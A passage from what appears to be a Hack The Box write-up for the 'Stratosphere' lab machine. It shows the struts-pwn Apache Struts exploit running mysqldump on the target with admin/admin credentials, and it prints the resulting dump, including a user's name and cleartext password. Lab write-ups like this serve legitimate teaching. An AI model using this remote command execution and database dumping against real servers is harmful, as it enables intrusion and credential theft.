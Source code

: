 We get an error that says "access denied when using LOCK TABLES", to work around this we can simply use the `--single-transaction` switch on our command.

```
root@kali:~/htb/stratosphere# python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqldump -u admin --password=admin --single-transaction --all-databases'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: mysqldump -u admin --password=admin --single-transaction --all-databases
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

-- MySQL dump 10.16  Distrib 10.1.26-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: 
-- ------------------------------------------------------
-- Server version	10.1.26-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `users`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `users` /*!40100 DEFAULT CHARACTER SET utf8mb4 */;

USE `users`;

--
-- Table structure for table `accounts`
--

DROP TABLE IF EXISTS `accounts`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `accounts` (
  `fullName` varchar(45) DEFAULT NULL,
  `password` varchar(30) DEFAULT NULL,
  `username` varchar(20) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `accounts`
--

LOCK TABLES `accounts` WRITE;
/*!40000 ALTER TABLE `accounts` DISABLE KEYS */;
INSERT INTO `accounts` VALUES ('Richard F. Smith','9tc*rhKuG5TyXvUJOrE^5CK7k','richard');
/*!40000 ALTER TABLE `accounts` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

```
